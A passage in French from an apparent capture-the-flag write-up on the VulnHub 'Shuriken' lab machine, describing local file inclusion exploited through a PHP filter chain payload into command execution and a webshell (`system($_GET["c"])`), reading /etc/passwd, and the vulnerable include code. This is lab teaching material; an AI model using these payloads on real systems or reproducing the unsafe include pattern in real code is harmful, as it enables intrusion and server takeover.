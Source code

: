 ```
    host: shuriken.local
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
---
```

Le payload correspond à la technique que j'ai décrit pour le CTF [Corrosion](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Corrosion%20de%20VulnHub.md) et que j'ai depuis ajouté dans *Wapiti*.

Si je j'inecte le payload suivant encodé avec [php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) :

```php
<?php system("sleep 10");?>
```

J'obtiens bien un délais d'attente qui prouve que l'exécution de commande est fonctionnelle. En revanche je n'ai pas eu d'output si je tentais d'appeller `readfile` ou `phpinfo`. Au mieux j'obtenais des caractères étranges dans la page.

Le payload doit être court sinon le serveur répond par une erreur `414 Request-URI Too Long`.

Un simple `system($_GET["c"]);` est suffisant pour obtenir notre webshell qui nous fait attérir dans `/var/www/main/`.

On voit dans ce dossier que le script vulnérable faisait un peu de ménage dans les données reçues mais plusieurs payloads présents dans *Wapiti* auraient permis de voir la vulnérabilité (juste passer `/etc/passwd `suffit) :

```php
<?php
$file = $_GET['referer'];
$filter = str_replace('../','',$file);
include($filter);
?>
```

Dans les process je remarque qu'un utilisateur `server-management` fait tourner nodejs, probablement sur le port filtré :

```
server-+   730  0.2  2.5 612356 25972 ?        Ssl  Nov14   2:25 node /home/server-management/Shuriken/server.js
```

Comme on n'est pas root on ne peux pas obtenir la liste des processus qui écoute sur chacun des ports mais on peut valider l'hypothèse en regardant les sites activés pour `Apache` :

```apacheconf
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        ServerName shuriken.local
        DocumentRoot /var/www/main
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        <Directory /var/www/main>
                Order allow,deny
                allow from all
        </Directory>
</VirtualHost>

<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        ServerName broadcast.shuriken.local
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
```